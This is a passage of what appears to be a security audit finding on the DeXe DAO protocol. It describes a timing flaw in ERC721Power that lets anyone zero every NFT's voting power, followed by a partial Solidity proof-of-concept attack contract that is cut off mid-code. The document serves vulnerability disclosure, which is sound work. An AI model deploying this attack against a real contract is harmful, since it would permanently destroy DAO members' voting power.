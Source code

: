 This attack is extremely devastating as the individual power of `ERC721Power` nfts can never be increased; it can only decrease over time if the required collateral is not deposited. By setting all nfts' `currentPower = 0` as soon as power calculation starts (`block.timestamp == ERC721Power.powerCalcStartTimestamp`) the `ERC721Power` contract is effectively completely bricked - there is no way to "undo" this attack unless the nft contract is replaced with a new contract.

Dexe-DAO can be created [using only nfts for voting](https://github.com/dexe-network/DeXe-Protocol/tree/f2fe12eeac0c4c63ac39670912640dc91d94bda5/contracts/gov/user-keeper/GovUserKeeper.sol#L74); in this case this exploit which completely bricks the voting power of all nfts means a new DAO has to be re-deployed since no one can vote as everyone's voting power has been destroyed.

**Proof of Concept:** Add attack contract `mock/utils/ERC721PowerAttack.sol`:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "../../gov/ERC721/ERC721Power.sol";

import "hardhat/console.sol";

contract ERC721PowerAttack {
    // this attack can decrease ERC721Power::totalPower by the true max power of all
    // the power nfts that exist (to zero), regardless of who owns them, and sets the current
    // power of all nfts to zero, totally bricking the ERC721Power contract.
    //
    // this attack only works when block.timestamp == nftPower.powerCalcStartTimestamp
    // as it takes advantage of a difference in getNftPower() & recalculateNftPower():
    //
    // getNftPower() returns 0 when block.timestamp <= powerCalcStartTimestamp
    // recalculateNftPower returns 0 when block.timestamp < powerCalcStartTimestamp
    function attack(
        address nftPowerAddr,
        uint256 initialTotalPower,
        uint256 lastTokenId
    ) external {
        ERC721Power nftPower = ERC721Power(nftPowerAddr);

        // verify attack starts on the correct block
        require(
            block.timestamp == nftPower.powerCalcStartTimestamp(),
            "ERC721PowerAttack: attack requires block.timestamp == nftPower.powerCalcStartTimestamp"
        );

        // verify totalPower() correct at starting block
        require(
            nftPower.totalPower() == initialTotalPower,
            "ERC721PowerAttack: incorrect initial totalPower"
        );

        // call recalculateNftPower() for every nft, this:
        // 1) decreases ERC721Power::totalPower by that nft's max power
        // 2) sets that nft's currentPower = 0
        for (uint256 i = 1; i <= lastTokenId; ) {
            require(
                nftPower.recalculateNftPower(i) == 0,
                "ERC721PowerAttack: recalculateNftPower() should return 0 for new nft power"
            );

            unchecked {
                ++i;
            }
        }

        require(
```